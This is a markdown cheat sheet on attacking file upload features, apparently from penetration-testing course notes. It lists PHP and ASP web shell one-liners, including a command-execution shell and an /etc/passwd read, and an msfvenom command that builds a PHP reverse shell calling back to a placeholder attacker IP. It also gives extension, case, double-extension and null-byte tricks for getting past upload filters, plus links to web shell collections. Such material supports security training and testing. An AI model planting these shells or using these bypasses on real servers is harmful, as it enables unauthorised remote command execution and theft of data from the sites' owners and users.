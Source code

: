 ```yaml
---
title: File Upload Attack
---
```


# Web Shells

| **Web Shell**   | **Description**   |
| --------------|-------------------|
| `<?php file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read | 
| `<?php system('hostname'); ?>` | Basic PHP Command Execution | 
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell | 
| `<% eval request('cmd') %>` | Basic ASP Web Shell | 
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell | 
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell | 
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell | 
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells | 

# Bypasses

| **Command**   | **Description**   |
| --------------|-------------------|
| **Client-Side Bypass** |
| `[CTRL+SHIFT+C]` | Toggle Page Inspector |
| **Blacklist Bypass** |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) | List of ASP Extensions |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) | List of Web Extensions |
| **Whitelist Bypass** |
| `shell.jpg.php` | Double Extension |
| `shell.php.jpg` | Reverse Double Extension |
| `%20, %0a, %00, %0d0a, /, .\, ., …` | Character Injection - Before/After Extension |
| **Content/Type Bypass** |
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt) | List of Web Content-Types |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) | List of File Signatures/Magic Bytes |

# Limited Uploads

| **Potential Attack**   | **File Types**   |
| --------------|-------------------|
| `XSS` | HTML, JS, SVG, GIF | 
| `XXE/SSRF` | XML, SVG, PDF, PPT, DOC | 
| `DoS` | ZIP, JPG, PNG | 
